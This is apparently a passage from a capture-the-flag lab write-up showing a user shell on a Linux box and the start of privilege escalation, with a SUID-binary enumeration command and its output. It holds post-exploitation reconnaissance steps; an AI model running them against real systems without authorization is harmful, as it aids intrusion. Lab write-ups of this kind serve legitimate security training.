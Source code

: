 ```console
drwxr-xr-x.  20 root   root   3100 Jan 29 11:15 dev
drwxr-xr-x. 142 root   root   8192 Jan 29 11:15 etc
drwxr-xr-x.   4 root   root     31 Dec 25  2018 home
lrwxrwxrwx.   1 root   root      7 Jun 10  2018 lib -> usr/lib
lrwxrwxrwx.   1 root   root      9 Jun 10  2018 lib64 -> usr/lib64
-rw-r--r--.   1 apache apache   46 Dec 25  2018 local.txt
drwxr-xr-x.   2 root   root      6 Apr 11  2018 media
drwxr-xr-x.   2 root   root      6 Apr 11  2018 mnt
drwxr-xr-x.   3 root   root     16 Jun 13  2018 opt
dr-xr-xr-x. 207 root   root      0 Jan 29 09:15 proc
dr-xr-x---.  17 root   root   4096 Dec 26  2018 root
drwxr-xr-x.  40 root   root   1340 Jan 29 11:27 run
drwxr-xr-x.   4 root   root     38 Jun 14  2018 samba
lrwxrwxrwx.   1 root   root      8 Jun 10  2018 sbin -> usr/sbin
drwxr-xr-x.   2 root   root      6 Apr 11  2018 srv
dr-xr-xr-x.  13 root   root      0 Jan 29 11:14 sys
drwxrwxrwt.   2 root   root      6 Jan 29 11:15 tmp
drwxr-xr-x.  13 root   root    155 Jun 10  2018 usr
drwxr-xr-x.  24 root   root   4096 Dec 25  2018 var

sh-4.2$ cat local.txt
cat local.txt
Congratulations on obtaining a user shell. :)
```

# Privilege Escalation
## SUID
We'll search for any file we can run using sudo user using the `find / -perm -u=s -type f 2>/dev/null` command

```console
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/cp
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/Xorg
/usr/bin/pkexec
/usr/bin/crontab
/usr/bin/passwd
/usr/bin/ksu
/usr/bin/at
/usr/bin/staprun
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/userhelper
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
/usr/libexec/flatpak-bwrap
/usr/libexec/sssd/krb5_child
/usr/libexec/sssd/ldap_child
/usr/libexec/sssd/selinux_child
```